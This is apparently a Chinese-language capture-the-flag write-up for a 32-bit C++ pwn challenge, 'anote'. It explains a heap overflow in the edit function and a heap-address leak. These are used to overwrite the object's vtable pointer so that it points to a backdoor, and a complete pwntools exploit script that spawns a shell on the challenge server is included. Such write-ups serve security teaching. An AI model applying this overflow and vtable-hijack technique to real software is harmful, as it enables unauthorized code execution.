



# anote

## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |yes   |

## 解题思路

32位菜单题，`add`不能输入内容，`edit`时可以溢出写(`0x28 > 0x1c`)，`show`会泄露堆地址。
由于是C++题，申请的堆块开头存在一个虚表，在edit完成时调用，可以通过溢出写覆盖虚表。
通过`show`泄露堆地址后，可以在堆上写一个虚表，并在其中写上程序中的后门地址，然后调用`edit`即可拿shell。





## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anote'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('101.200.198.105', 22673)

    def add():
        sh.sendlineafter(b'ice>>', b'1')

    def show(idx: int) -> int:
        sh.sendlineafter(b'ice>>', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'gift: ')
        return int(sh.recvline(), 16)

    def edit(idx: int, size: int, buf: bytes):
        sh.sendlineafter(b'ice>>', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'len', str(size).encode())
        sh.sendlineafter(b'content', buf)

    add()
    add()
    heap = show(0)
    backdoor = 0x80489ce
    success(GOLD_TEXT(f"Leak heap: {heap:#x}"))
    edit(0, 0x1c, p32(backdoor) + b'0'*0x10 + p32(0x21) + p32(heap + 8))
    edit(1, 0, b'x')
        
    sh.clean()
    sh.interactive()
    sh.close()
```


